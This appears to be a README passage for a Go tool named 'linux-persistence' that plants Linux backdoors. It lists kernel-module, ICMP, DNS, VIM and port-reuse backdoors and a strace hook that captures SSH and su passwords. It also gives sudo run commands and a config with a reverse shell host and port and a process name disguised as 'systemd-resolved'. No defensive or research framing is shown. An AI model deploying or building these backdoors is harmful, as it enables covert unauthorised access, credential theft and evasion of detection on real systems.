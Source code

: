 ### 7. Kernel Module Backdoor
- Creates and loads kernel modules
- Runs at kernel level
- Harder to detect

### 8. ICMP Backdoor
- Listens for ICMP packets
- Triggered by specific payload
- Uses raw sockets

### 9. DNS Backdoor
- Disguised as DNS query traffic
- Periodically sends query requests
- Covert communication channel

### 10. VIM Backdoor
- Exploits VIM's Python extension
- Background shell listener
- Process disguise

### 11. Strace Backdoor
- Records SSH and su command inputs
- Captures user passwords
- Log file storage

### 12. Port Reuse Backdoor
- Uses iptables for port reuse
- Triggered by specific strings
- SSH traffic reuse

## Compilation and Usage

### Compilation
```bash
go build -o linux-persistence main.go
```

### Usage
```bash
# Recommended to run with root privileges for best results
sudo ./linux-persistence
```

## Configuration Options

You can modify the configuration struct in `main.go` to customize settings:

```go
var config = Config{
    ReverseShellHost: "192.168.1.100",  // Reverse shell target host
    ReverseShellPort: 4444,             // Reverse shell target port
    BackdoorPort:     6666,             // VIM backdoor listening port
    HiddenProcess:    "systemd-resolved", // Hidden process name
    SSHBackdoorPort:  2222,             // SSH backdoor port
}
```
